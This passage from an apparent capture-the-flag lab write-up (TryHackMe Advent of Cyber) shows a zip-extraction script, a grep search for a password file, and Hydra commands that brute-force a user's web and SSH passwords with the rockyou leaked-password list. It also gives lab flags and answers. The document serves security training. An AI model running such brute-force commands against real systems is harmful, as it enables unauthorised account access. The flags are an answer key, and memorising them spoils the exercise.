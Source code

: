 ```python
def main():
	path = '.'
	canProcede = True
	while canProcede:
		files = os.listdir(path=path);
		zipExists = False
		for file in files:
			if file.endswith('.zip'):
				zipExists = True
				break
		canProcede = zipExists
		if zipExists:
			visitDirectory(path);
    writeMetadata(path)


if __name__ == "__main__":
	main()
```

- How many files did you extract(excluding all the .zip files)

> 50

- How many files contain Version: 1.1 in their metadata?

> 3

- Which file contains the password?

```bash
$ grep -iR passw
```

> dL6w.txt

---

## *[Day 17] Hydra-ha-ha-haa*

- Use Hydra to bruteforce molly's web password. What is flag 1? (The flag is mistyped, its THM, not TMH)

```bash
$ hydra -l molly -P ~/CyberSecurity/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.119.255 http-post-form '/login:username=^USER^&password=^PASS^:incorrect' -V
```

> THM{2673a7dd116de68e85c48ec0b1f2612e}

- Use Hydra to bruteforce molly's SSH password. What is flag 2?

```bash
$ hydra -l molly -P ~/CyberSecurity/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.119.255 ssh -V
```
